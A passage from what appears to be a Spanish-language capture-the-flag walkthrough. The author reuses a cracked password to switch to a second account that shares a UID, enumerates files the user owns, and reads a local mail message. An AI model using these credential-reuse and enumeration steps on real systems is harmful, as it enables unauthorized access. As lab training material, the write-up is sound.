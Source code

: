 Una vez crackeado vamos a intentar convertirnos en el usuario steven haciendo uso de la contraseña recientemente obtenida.

```
www-data@production:/var/backups$ su steven
Password: ihatehackers
su: Authentication failure
```

Como vemos esta no es la contraseña de steven, si leemos el archivo ```/etc/passwd``` podemos ver que hay otro usuario llamado ```steven1```, probemos la contraseña con ese otro usuario.

```
www-data@production:/var/backups$ su steven1
Password: ihatehackers
steven@production:/var/backups$ id
uid=1000(steven) gid=1000(steven) groups=1000(steven)
```

Al parecer somos el usuario steven, aunque le hayamos indicado steven1, esto se debe porque ambos usuarios tiene el mismo UID.

Vamos a enumerar nuevamente por archivos cuyo propietario sea steven

```
steven@production:/var/backups$ find / -user steven 2>/dev/null | grep -vE 'sys|run|proc'
/dev/pts/7
/var/mail/steven
/home/steven
/home/steven/.cache
/home/steven/.cache/motd.legal-displayed
/home/steven/.bashrc
/home/steven/.profile
/home/steven/.local
/home/steven/.local/share
/home/steven/.local/share/nano
/home/steven/.ssh
/home/steven/.bash_logout
/home/steven/.bash_history
```

Como vemos, este usuario tiene un correo en ```/var/mail/steven```

```
steven@production:/var/backups$ cat /var/mail/steven
From root@production  Sun, 25 Jul 2021 10:31:12 GMT
Return-Path: <root@production>
Received: from production (localhost [127.0.0.1])
        by production (8.15.2/8.15.2/Debian-18) with ESMTP id 80FAcdZ171847
        for <steven@production>; Sun, 25 Jul 2021 10:31:12 GMT
Received: (from root@localhost)
        by production (8.15.2/8.15.2/Submit) id 80FAcdZ171847;
        Sun, 25 Jul 2021 10:31:12 GMT
Date: Sun, 25 Jul 2021 10:31:12 GMT
Message-Id: <202107251031.80FAcdZ171847@production>
To: steven@production
From: root@production
Subject: Investigations

Hi Steven.

We recently updated the system but are still experiencing some strange behaviour with the Apache service.
We have temporarily moved the web store and database to another server whilst investigations are underway.
If for any reason you need access to the database or web application code, get in touch with Mark and he
will generate a temporary password for you to authenticate to the temporary server.

```